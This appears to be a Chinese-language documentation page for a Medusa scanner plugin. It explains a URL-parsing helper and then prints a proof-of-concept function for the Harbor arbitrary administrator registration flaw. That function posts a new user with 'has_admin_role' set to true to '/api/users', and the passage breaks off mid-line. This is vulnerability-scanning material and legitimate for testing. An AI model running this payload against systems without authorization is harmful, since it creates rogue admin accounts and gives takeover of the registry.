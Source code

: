 
### UrlProcessing函数

对`url`进行处理

```python
def UrlProcessing(url):
    if url.startswith("http"):#判断是否有http头，如果没有就在下面加入
        res = urllib.parse.urlparse(url)
    else:
        res = urllib.parse.urlparse('http://%s' % url)
    return res.scheme, res.hostname, res.port
```

函数对各个部分进行处理，最终我们只需要取得` scheme` ,` port` , ` hostname` 的值返回给调用函数就行

该函数在`2.7`插件编写规范版本中已写入`ClassCongregation`类中，调用只需要如下操作即可

```python
使用方法一：单独导入
from ClassCongregation import UrlProcessing
scheme, url, port = UrlProcessing().result(Url)
使用方法二：直接导入
import ClassCongregation
scheme, url, port = ClassCongregation.UrlProcessing().result(Url)
```



### medusa函数

```python
def medusa(Url, RandomAgent, UnixTimestamp):
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=headers, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
            Medusa = "{}存在Harbor任意管理员注册漏洞\r\n 验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
```